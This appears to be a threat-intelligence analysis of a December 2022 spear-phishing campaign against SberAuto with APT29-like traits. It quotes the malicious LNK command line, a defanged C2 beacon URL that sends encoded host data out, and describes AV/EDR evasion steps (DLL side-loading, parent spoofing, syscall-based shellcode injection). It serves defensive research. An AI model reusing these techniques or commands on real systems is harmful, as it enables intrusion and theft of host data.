



Summary
On December 19, 2022 malware researcher known as StopMalvertisin twitted about a possible APT29 attack.

The spear-phishing campaign targeted SberAuto, a Russian online car trading platform associated with the state-owned banking and financial services company Sberbank.
The analyzed attack displayed similar TTPs commonly attributed to APT29 (aka Cozy Bear), even though it is unclear why a Russian-backed hacking group should be targeting a domestic web service.
Technical Analysis
Initial Stage
The first stage of this attack is represented by an ISO file (0b32bd907072d95223e5eb2dc5e3d9e0) named “Алкоголь_2023_zip.iso” (i.e., “Alcohol”), uploaded on VirusTotal from Russia on December 19, 2022 and potentially delivered as an email attachment.

The archive content closely resembles the one of previous APT29 campaigns.

The only folder visible item is a shortcut file disguised as “Алкоголь_2023.pdf”.
%windir%/system32/cmd.exe /c start update.exe & "%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe" %cd%/alcohol.pdf
Once clicked on the LNK file, update.exe is firstly executed, followed by the lure PDF document called “alcohol.pdf”, which displays the alcohol catalog from the Russian market chain called Globus Gourmet.

The files “thumbcache.dll” and “update.exe” are actually two legit signed binaries of Microsoft OneDrive: the latter exploits Windows search order hijacking to load the malicious DLL named “version.dll,” which has been modified by the threat actor to load an encrypted payload file.

Second stage: version.dll
The dynamic-linked library “version.dll” is a 64-bit DLL which is side-loaded by the legit Microsoft OneDrive binary.
The compile-timestamp shows Sunday, December 18 2022.

The binary first employs GetComputerNameExA API function to retrieve the hostname of the infected machine and check whether it is equal to corp.sberauto[.]com, an online russian service facilitating car sales website.
If the hostname does not match, the program terminates.

After that, the malicious DLL iterates through the running processes using Process32Next to find the ID of explorer.exe and obtain its process handle.

It then creates a suspended-process called RuntimeBroker.exe using CreateProcessA and sets “explorer.exe” as the parent process via UpdateProcThreadAttribute API.
The attribute parameter with the value 0x20007 corresponds to the definition of PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, while the value 0x100000000000 corresponds to PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON: it is typical for CobaltStrike to use CreateProcess API call along with a STARTUPINFOEX structure containing this mitigation policy to block DLLs that are not signed by Microsoft.

Finally, the DLL decrypts the shellcode into “RuntimeBroker.exe” through NtAllocateVirtualMemory and NtWriteVirtualMemory, sets it to an executable APC routine and run it via the NtAlertResumeThread.
All this function API calls are done directly via syscall to hinder analysis.

The presence of specific debug strings shows that the program was created with Shhhloader framework, a “shellcode loader that takes raw shellcode as input and compiles a C++ stub that does a bunch of different things to try and bypass AV/EDR”.

Final stage: Cobalt Strike
The shellcode
that, after obtaining the relevant information about the victim machine such as username, computer name and computer version, sends them to the C2 adblockext[.]ru domain via Base64-encoded scheme.
https://adblockext[.]ru/functionalStatus/hw7s8TE4f9GtrBHb8iiFT7RyIAuN?_=BASE64_ENCODED_DATA
Conclusion
The similarities with previous APT29 campaigns (i.e., the use of ISO files containing binaries vulnerable to DLL hijacking) may lead to a couple of final hypotheses.
First, the attacks may be either orchestrated by Ukrainian groups (particularly, the “The IT Army of Ukraine”) trying to simulate Cozy Bear TTPs.
Alternately, this could be also a Russian red teaming exercise to enhance internal cybersecurity measures.